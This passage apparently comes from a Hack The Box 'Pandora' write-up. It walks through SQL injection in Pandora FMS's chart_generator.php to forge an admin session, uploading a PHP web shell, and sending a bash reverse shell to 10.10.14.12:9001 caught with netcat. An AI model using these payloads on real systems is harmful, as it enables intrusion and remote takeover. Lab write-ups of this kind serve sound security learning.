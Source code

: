 Matt doesn't seem to be an admin. Let's try some other things.

We can do:

```bash
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=1' union select 1-- -
```

Because we have 3 `tsessions_php` entries, we enter:

```bash
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=1' union select 1,2,3-- -
```

Which gets rid of the error message. Now we can do:

```bash
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=1%27%20union%20select%201,2,%27id_usuario|s:5:%22admin%22;%27--%20-
```

And we are in! We can see that the in `Admin tools -> File manager` we get put in `/images/`, so lets try to upload something there. The URL is `http://localhost:8000/pandora_console/images/`. Our shell:

```php
<?php                                                                             
system($_REQUEST['cmd']);                                                                                                                                                                                                                   
?>
```

We can upload it, then execute it. It doesn't display anything but we can run `http://localhost:8000/pandora_console/images/shell.php?cmd=whoami` and we get `matt`!

We can open it in **Burp**, send it to the `Repeater` and convert the request type to **POST**. Then we change `cmd` to:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'
```

Make sure to `ctrl+u` it to encode it to URL. We are in!

```bash
~/htb/pandora > nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.136 59342
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ges$ python3 -c 'import pty;pty.spawn("/bin/bash")'  
```

Then we `ctrl+z` it and run:

```bash
stty raw -echo; fg

ENTER
ENTER
```
